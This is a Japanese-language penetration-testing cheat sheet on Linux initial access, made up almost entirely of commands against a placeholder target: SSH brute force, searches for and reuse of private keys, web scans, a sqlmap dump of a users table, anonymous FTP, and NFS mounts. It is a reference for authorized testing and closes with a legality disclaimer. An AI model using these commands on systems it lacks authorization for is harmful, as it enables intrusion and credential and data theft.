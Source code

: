 # Linux Initial Access Techniques

## SSH攻撃

### SSH ブルートフォース
```bash
# Hydra を使用したSSHブルートフォース
hydra -l root -P /path/to/passwords.txt ssh://target-ip

# Medusa を使用したSSHブルートフォース
medusa -h target-ip -U users.txt -P passwords.txt -M ssh
```

### SSH鍵の列挙と再利用
```bash
# 既存のSSH鍵の検索
find / -name "id_rsa" 2>/dev/null
find / -name "authorized_keys" 2>/dev/null

# SSH鍵の権限変更
chmod 600 id_rsa
ssh -i id_rsa user@target-ip
```

## Web攻撃

### Webアプリケーション脆弱性スキャン
```bash
# Nikto スキャン
nikto -h http://target-ip

# WPScan（WordPressの場合）
wpscan --url http://target-ip --enumerate u,p,t
```

### SQLインジェクション
```bash
# SQLmap を使用した自動化スキャン
sqlmap -u "http://target-ip/page.php?id=1" --dbs
sqlmap -u "http://target-ip/page.php?id=1" -D database_name --tables
sqlmap -u "http://target-ip/page.php?id=1" -D database_name -T users --dump
```

## 公開サービス攻撃

### FTP 匿名アクセス
```bash
# 匿名FTPアクセスの確認
ftp target-ip
Username: anonymous
Password: anonymous

# FTPサーバースキャン
nmap -p21 --script ftp-* target-ip
```

### NFS共有マウント
```bash
# 利用可能なNFS共有の列挙
showmount -e target-ip

# NFS共有のマウント
mkdir /tmp/mount
mount -t nfs target-ip:/share /tmp/mount
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- 実際の攻撃に使用することは違法です
- ターゲットシステムに重大な影響を与える可能性があるため、慎重に実行してください 